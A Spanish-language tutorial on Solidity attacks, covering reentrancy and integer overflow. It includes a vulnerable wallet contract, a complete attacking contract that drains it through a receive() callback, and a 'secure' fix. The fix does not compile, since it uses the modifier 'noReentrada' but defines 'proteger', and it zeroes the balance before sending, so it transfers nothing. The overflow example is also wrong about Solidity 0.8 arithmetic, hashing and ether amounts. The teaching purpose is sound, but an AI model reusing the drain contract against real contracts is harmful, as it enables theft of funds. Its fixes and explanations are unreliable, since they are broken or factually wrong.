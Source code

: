 # Solidity_Attacks

### Reentrancy Attack  

Para comprender mejor el ataque de reentrancia, primero debemos entender el funcionamiento de las funciones y las transacciones en Solidity. Cuando se llama a una función en un contrato inteligente, se inicia una nueva transacción en la red de Ethereum. Durante esta transacción, el contrato inteligente realiza ciertas operaciones y puede llamar a otras funciones o enviar Ether a otros contratos o direcciones. Cuando se llama a una función en un contrato inteligente, cualquier código adicional que se ejecute dentro de esa función se ejecuta en el mismo contexto de la transacción original.

Ahora, para entender mejor cómo funciona un ataque de reentrancia, imaginemos que un contrato inteligente tiene una función que permite a los usuarios retirar Ether de su cuenta en el contrato. Esta función, digamos "retirar()", realiza una serie de operaciones, como verificar el saldo de la cuenta del usuario, actualizar el saldo y enviar Ether a la dirección del usuario. Ahora, si un atacante malintencionado crea un contrato que llama a la función "retirar()" del contrato inteligente, pero luego vuelve a llamar a "retirar()" antes de que la transacción original se haya completado, el contrato malintencionado puede seguir retirando Ether del contrato inteligente de manera repetitiva, aprovechando el hecho de que la función "retirar()" aún no ha terminado de ejecutarse.

Para ilustrar esto con un ejemplo de código, aquí hay un contrato inteligente de ejemplo llamado "WalletInsegura.sol", que contiene una función "retirar()" vulnerable al ataque de reentrancia:


**WalletInsegura.sol**

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

contract WalletInsegura {
    mapping (address => uint256) private balances;

    function balance() external view returns (uint256) {
        return address(this).balance;
    }

    function depositar() external payable {
        balances[msg.sender] += msg.value;
    }

    function retirar() external {
        require(balances[msg.sender] > 0, "Insufficient balance");

        (bool success, ) = payable(msg.sender).call{value: balances[msg.sender]}("");
        require(success, "Error al enviar eth");

        balances[msg.sender] = 0;
    }
}
```

En este contrato, los usuarios pueden depositar Ether en su cuenta en el contrato llamando a la función "deposit()", que simplemente actualiza el saldo del usuario en el mapa "balances". Sin embargo, la función "retirar()" es vulnerable a un ataque de reentrancia. Si un atacante malintencionado crea un contrato que llama repetidamente a "retirar()", como se muestra a continuación, el contrato puede retirar Ether del contrato inteligente de manera repetitiva hasta que se quede sin fondos.

Ahora, crearemos un contrato malintencionado llamado "Ataque.sol" para explotar la vulnerabilidad en el contrato "WalletInsegura.sol". El código para el contrato malintencionado:


**Ataque.sol**  

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

interface IWallet {
    function depositar() external payable;
    function retirar() external;
}

contract Ataque {
    IWallet public immutable wallet;

    constructor(IWallet _wallet) {
        wallet = _wallet;
    }

    function atacar() external payable {
        require(msg.value == 1 ether, "Insuficiente eth");
        wallet.depositar{value: 1 ether}();
        wallet.retirar();
    }
    
    receive() external payable {
        if (address(wallet).balance >= 1 ether)
            wallet.retirar();
    }

    function balance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

Este contrato malintencionado tiene una función llamada "ataque()" que corrobora que se haya enviado ether suficiente para realizar el ataque, hará un depósito llamando a la función "depositar()" ya que la función "retirar()" requiere que este tenga balance y luego llama a la función "retirar()" nuevamente antes de que se actualice el balance en el contrato vulnerable. 

Finalmente, el contrato malintencionado también tiene una función de fallback que se activa cuando se envía Ether al contrato sin especificar una función. Esta función comprueba el saldo del contrato "WalletInsegura.sol" y llama a la función "retirar()" si hay suficiente saldo disponible. Esto se repite hasta que el contrato malintencionado agota los fondos del contrato "WalletInsegura.sol".


Para protegerse contra el ataque de reentrancia, los desarrolladores deben asegurarse de que las funciones críticas del contrato inteligente estén diseñadas para evitar llamadas repetitivas o llamadas a otras funciones que puedan ser explotadas por un atacante malintencionado. Una forma común de hacerlo es usar el patrón de bloqueo de estado, que bloquea el estado del contrato inteligente durante la ejecución de una función para evitar que otras funciones se llamen antes de que la transacción original se complete.

Aquí está el código completo del contrato seguro "WalletSegura.sol" que utiliza el patrón de bloqueo de estado:


**WalletSegura.sol**
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

contract WalletSegura {
    bool internal bloqueado;
    mapping (address => uint256) private balances;

    function balance() external view returns (uint256) {
        return address(this).balance;
    }

    function depositar() external payable {
        balances[msg.sender] += msg.value;
    }

    function retirar() external noReentrada{
        require(balances[msg.sender] > 0, "Insufficient balance");
        balances[msg.sender] = 0;
        (bool success, ) = payable(msg.sender).call{value: balances[msg.sender]}("");
        require(success, "Error al enviar eth");
    }

    modifier proteger() {
        require(!bloqueado, "Llamada de ataque");
        bloqueado = true;
        _;
        bloqueado = false;
    }
}
```

En este contrato, se ha agregado una variable booleana "bloqueado" para evitar que las funciones se llamen repetitivamente. La función "retirar()" ahora tiene un modificador personalizado "noReentrada()" que bloquea la función "retirar()" si ya está en ejecución. El modificador establece la variable "bloqueado" en verdadero al inicio de la ejecución de la función y la establece en falso al finalizar. Esto garantiza que la función "retirar()" no se llame repetidamente hasta que se complete la transacción original.


Link: https://www.youtube.com/watch?v=rrvU3DSbXKo  
Repo: https://github.com/meta-dapp/reentracy  



### Integer overflow/underflow attack  

En Solidity, las variables enteras tienen un rango de valores permitidos, que depende del tipo de variable. Por ejemplo, el tipo **uint8** tiene un rango de valores permitidos de 0 a 255, mientras que el tipo **uint256** tiene un rango de valores permitidos de 0 a 2^256-1.

El ataque de desbordamiento de enteros se produce cuando se manipula una variable para que su valor exceda el rango permitido. Esto puede provocar que la variable se desborde y tome un valor incorrecto, lo que puede causar comportamientos inesperados o incluso el bloqueo del contrato.

Por ejemplo, considera el siguiente contrato de Solidity que permite a un usuario apostar en un juego de dados:

```
contract JuegoDeDados {
    uint256 public balance;
    
    function apostar(uint8 _numero) public payable {
        require(msg.value > 0);
        require(_numero >= 1 && _numero <= 6);
        uint8 dado = uint8(keccak256(abi.encodePacked(block.timestamp, msg.sender))) % 6 + 1;
        if (dado == _numero) {
            balance += msg.value * 5;
            msg.sender.transfer(msg.value * 5);
        } else {
            balance += msg.value;
        }
    }
}
```

En este contrato, el usuario puede apostar en un número del 1 al 6. Si el número apostado coincide con el número que sale en el dado, el usuario gana cinco veces su apuesta. De lo contrario, el usuario pierde su apuesta. El valor de la apuesta se agrega al balance del contrato.

Sin embargo, hay un problema de desbordamiento de enteros en la línea balance += msg.value * 5;. Si el balance actual es mayor o igual a 2^256-5 y un usuario apuesta la cantidad máxima permitida de ether (que es 2^256-1 wei), entonces el resultado del producto msg.value * 5 excederá el rango permitido y provocará un desbordamiento. Esto hará que el balance tome un valor incorrecto y puede provocar que el contrato no funcione correctamente.

Para evitar este problema, se podría utilizar una librería segura de manejo de enteros, como la librería SafeMath de OpenZeppelin, que se encarga de verificar los límites de los enteros antes de realizar operaciones con ellos. También es importante realizar pruebas exhaustivas del código para identificar y corregir posibles vulnerabilidades.
